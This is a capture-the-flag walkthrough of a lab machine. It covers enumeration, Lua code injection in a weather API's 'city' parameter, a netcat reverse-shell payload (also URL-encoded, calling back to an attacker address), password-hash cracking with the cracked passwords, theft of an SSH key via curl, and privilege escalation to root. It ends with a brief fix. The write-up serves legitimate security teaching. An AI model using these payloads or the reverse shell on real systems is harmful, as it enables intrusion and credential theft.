# <p style="color:DArkRED">Information Gathering </p>
---
## <p style="color:Green">Nmap scan </p> 
```bash
sudo nmap -sC -sV 10.10.10.218 -v
```


As we can see above, We have 3 PORTS open:
- Port 22 running OpenSSH 8.0 ; Recent version, no need waste time on it
- Port 80 running nginx ; robots.txt --> /weather
- Port 9001 running Medusa httpd 1.12 ; If we were on linux i think this should be something to look at
> Skipping the gobuster part, it will only show us robots.txt. I do prefer Dirb when it comes to directory bruteforcing

## <p style="color:Green">Dirb scan </p> 


> You can clone the SecLists repo from here https://github.com/danielmiessler/SecLists

We already got  **/weather/** from the nmap results, let's see enum more
```bash
dirb -R http://10.10.10.218/weather/ /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt 
```


---

# <p style="color:DArkRED">Foothold</p>
From our previous scans we were able to find
```url
http://10.10.10.218/weather/forecast/
```

Let's try it as a GET param

Adding a < ' > causes an error


> Skipping the SQL Injection part as it got me nothing 

Let's now try if we have any potential code injection.
Basically, The idea is to end the current lua command and inject.
Another think to note for lua a comment starts anywhere with a double hyphen ( -- ) and runs until the end of the line.

Let's first try this payload
```url
/weather/forecast?city=London');print("\nhi")--
```

That worked! Let's try if we can use system commands

```url
/weather/forecast?city=London');print("\n");os.execute("id")--
```


That worked aswell! Let's now get a reverse shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f
```
Final url encoded payload:
```url
/weather/forecast?city=%4c%6f%6e%64%6f%6e%27%29%3b%70%72%69%6e%74%28%22%5c%6e%22%29%3b%6f%73%2e%65%78%65%63%75%74%65%28%22%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%33%39%20%31%32%33%34%20%3e%2f%74%6d%70%2f%66%22%29%2d%2d
```
Let's execute it and get a shell on the box


---
# <p style="color:darkred">User PrivEsc</p>

We can see that we have the default  **.htpasswd** file which can contain potential passwords

Let's see what we got there

```bash
echo "$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0" > hash ; john hash -w=/opt/rockyou.txt
```

And we cracked it!


Let's start by viewing the running processes
> You need to specify the w tag to view the whole command


We can see that the user **r.michaels** is running a local server at port 3001! Let's exploit this to get his private SSH key!

```bash
curl http://127.0.0.1:3001/~r.michaels/id_rsa
```
But we get 401 Unauthorized page!


Let's try the credentials that we got earlier

```bash
curl http://127.0.0.1:3001/~r.michaels/id_rsa --user webapi_user:iamthebest
```

And it worked! Let's login to the user



And we grab that user flag!

# <p style="color:darkred">Root PrivEsc</p>
An interesting backups file which contains an encrypted tar.gz file



Because we're on an NetBSD box, we're gonna use netpgp to decrypt then extract its content

```bash
netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=backup.tar.gz
```


Let's check that .htpasswd file!

`webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.`

Let's crack this password with john!



`littlebear`

Let's try to switch to the root user with this password!

> https://www.vultr.com/docs/introduction-to-doas-on-NetBSD

```bash
doas su
```


And we rooted the box!

---

# <p style="color:darkred">Bonus Section</p>

Let's see what caused the lua injection!

```bash
cat /home/r.michaels/devel/webapi/weather.lua
```
Going through the code we can see the injection point!

```lua
httpd.write('"error": "unknown city: ' .. city .. '"}')
```
basically what we have done is
```lua
httpd.write('"error": "unknown city: hi');os.execute("id") -- '"}')
```
To avoid this kind of injection, we should validate and sanitize the "city" input. Scanning the city variable for escape characters and special symbols, making a blacklist for any suspicious word {os,execute,print,...} 
Or just by removing the '.. city ..' part!

## Thanks for reading hope you enjoyed it!


